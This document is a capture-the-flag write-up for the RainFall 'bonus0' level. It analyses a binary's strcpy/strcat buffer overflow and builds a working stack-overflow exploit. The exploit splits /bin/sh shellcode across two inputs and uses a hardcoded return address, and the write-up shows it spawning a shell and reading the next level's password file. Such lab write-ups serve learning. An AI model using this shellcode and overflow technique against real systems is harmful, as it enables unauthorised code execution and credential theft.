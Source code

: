bonus0
======

*	We spawn with a [bonus0](src/bonus0) executable
	```console
	bonus0@RainFall:~$ ./bonus0 
	- 
	test
	- 
	eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
	test eeeeeeeeeeeeeeeeeeee���
	```
*	The [base code](src/bonus0.c) was a bit messy so I did a little clean up to make it more readable [here](src/bonus0_clean.c)
	-	`main()` :	
		-	creates an array of `54 bytes` -> `result`
		-	`processInput()` with that string
		-	`puts()` the string
	-	`processInput()` :
		-	creates two strings of `20 bytes` each
		-	`readInput()` on both
		-	`strcpy()` the first string into `result`
		-	add ` \0` to the end of `result`
		-	`strcat()` second string with `result`
		-	in the end we should get something like this : `arg1 + arg2 + space + arg2`
	-	`readInput()` :
		-	creates a string `userInput[4104]`
		-	prompt the user with `read()`
		-	replace the `\n` with `\0`
		-	`strncpy()` the input into the first parameter
*	Once again, no obvious exploit here. Let's try to use a shellcode as parameter.
*	The two `input` are next to each other so we should be able to go on the second one by overflowing on the first one. and so put the first part of our shellcode in the first input and the rest in the second.
*	We need to retrieve the address of the start of the buffer in which the shellcode would be stored
	```console
	bonus0@RainFall:~$ ltrace ./bonus0 
	[...]
	strcpy(0xbffff726, "")      = 0xbffff726
	[...]
	```
	we are able to find it with `ltrace` -> `\x26\xf7\xff\xbf`.
*	We also now that our offset is of `54 bytes` thanks to `result`. Let's build the payload:
	- shellcode (20 first bytes in the `argv[1]`) and the 3 bytes left in the start of `argv[2]` -> `20 bytes + 3 bytes`
	- padding -> `11 bytes`
	- address of the buffer -> `4 bytes`
	- last but no least, we need to keep in mind the space the programs add at the end so we will add a random character -> `1 byte`
*	Let's try this
	```console
	bonus0@RainFall:~$ (python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print("\x0b\xcd\x80" + "a"*11 + "\xbf\xff\xf7\x26"[::-1] + "a")'; cat - )| ./bonus0
	[...]
	whoami
	bonus1
	cat /home/user/bonus1/.pass
	cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
	```